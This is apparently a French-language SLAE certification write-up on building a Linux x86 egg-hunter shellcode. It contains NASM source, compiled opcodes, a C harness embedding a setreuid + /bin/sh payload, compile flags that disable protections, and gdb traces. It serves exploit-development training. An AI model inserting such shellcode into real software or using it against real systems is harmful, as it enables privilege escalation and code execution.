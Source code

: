 # Assignment 3 #

Il s'agit dans ce troisième exercice de coder un "Egg Hunter shellcode". Il s'agit d'un technique permettant de palier au manque de mémoire necessaire à l'ajout du shellcode en mémoire. Le programme va chercher en mémoire une séquence lui indiquant qu'il se trouve au début du shellcode. Cette séquence doit être une suite d'opcodes qui ont peu de chance d'être contigues afin de pouvoir le retrouver facilement. Etant sur une architecture 32 bits nous allons utiliser une clé (Egg Key) de 4 octets.

Afin d'améliorer les chances de le trouver, il peut être conseillé de multiplier sa taille par deux.

## Définition de la clé ##

Nous allons pour cela utiliser la clé "b33fb33f". Ce choix est arbitraire, c'est un pattern facilement identifiable et qui a très peu de chance d'exister hors de ce contexte.

Le programme Egg hunter va parcourir la mémoire à la recherche de la clé précédement définie. Lors qu'il va essayer d'accéder à une zone mémoire non mappée cela va causer une erreur syst§me (SIGSEV). Il est donc necessaire de connaître une adresse accessible dans le même segment pour le shellcode et la clé.

L'idée est présentée via le descirptif ci-dessous.

```c
[egg hunter][random memory][egg][shellcode]
````

Nous allons pour cela créer un EggHunter qui aura pour fonction de chercher dans la mémoire la clé. Il faut pour cela s'assurer d'être dans le bon segment.

```c
; Egg Hunter Linux x86 shellcode
; Author: Alain Menelet
; Tested on ubuntu 16.04.3 LTS
; Egg Hunter stack memory


global _start

section .text

_start:
	jmp short valid

validAddress:
	
	pop eax			    ; eax contains a valid address
	mov ebx, 0x3fb33fb3	    ; egg key

_:
	inc eax			    ; increase memory
	cmp dword [eax], ebx        ; compare with the key
	jne _                       ; loop if dfferent
	jmp eax                     ; if equal jump to shellcode



valid:
	call validAddress

```

Nous compilons le tout :

```c
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";
```

Une fois cela fait nous allons modifier le programme C afin qu'il prenne en compte le shellcode, l'Egg key et l'Egg hunter.

Nous prenons le shellcode utilisé dans l'exercice 6. Il exécute un setreuid + /bin/sh.

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char egg[] = \
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";

unsigned char shellcode[] = \
"\xb3\x3f\xb3\x3f" // EggKey
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Taille de l'Egg Hhunter %d\nAdresse du Shellcode:%p\n", strlen(egg), shellcode);
	int (*ret)() = (int(*)())egg;
	ret();

return 0;
}

La compilation se fait de la même manière :

gcc -fno-stack-protector -z execstack test_egg.c -o test_egg
```

Nous testons le tout :

```c
phidia@xophidia-VirtualBox:~/Documents/Shellcode/as3$ ./eggHunter_test
Taille de l'Egg Hhunter 20
Adresse du Shellcode: 0x804a060
$ 
```

### Détails : ###

L'egg Hunter fonctionne comme suit :
Nous voyons l'adresse obtenue lors du pop eax. Elle est valide et servira de point de départ à la recherche.

Une fois la clé trouvée, nous effectuons un saut à cette adresse soit le début du shellcode.

```c
EAX: 0x8048074 --> 0x0           ; valid address from jump pop call technique
EBX: 0x3fb33fb3                  ; Egg key
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff200 --> 0x1 
EIP: 0x8048068 (<_>:	inc    eax) ; loop while the key is not found

[-------------------------------------code-------------------------------------]
   0x804805f:	add    bl,ch
   0x8048061 <_start+1>:	or     eax,0x3fb3bb58
   0x8048066 <validAddress+4>:	mov    bl,0x3f
=> 0x8048068 <_>:	inc    eax
   0x8048069 <_+1>:	cmp    DWORD PTR [eax],ebx
   0x804806b <_+3>:	jne    0x8048068 <_>
   0x804806d <_+5>:	jmp    eax
   0x804806f <valid>:	call   0x8048062 <validAddress>


Nous observons dans la pile la clé dans egg ainsi qu'au début du shellcode.

gdb-peda$ x/20x 0x804a040
0x804a040 <egg>:	0xbb580deb	0x3fb33fb3	0x75183940	0xe8e0fffb
0x804a050 <egg+16>:	0xffffffee	0x00000000	0x00000000	0x00000000
0x804a060 <shellcode>:	0x3fb33fb3	0xe1f7c931	0xb099cb89	0xf780cda4
0x804a070 <shellcode+16>:	0x2f6851e1	0x6868732f	0x6e69622f	0x8951e389
0x804a080 <shellcode+32>:	0xe18953e2	0x80cd0bb0	0x00000000	0x00000000
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763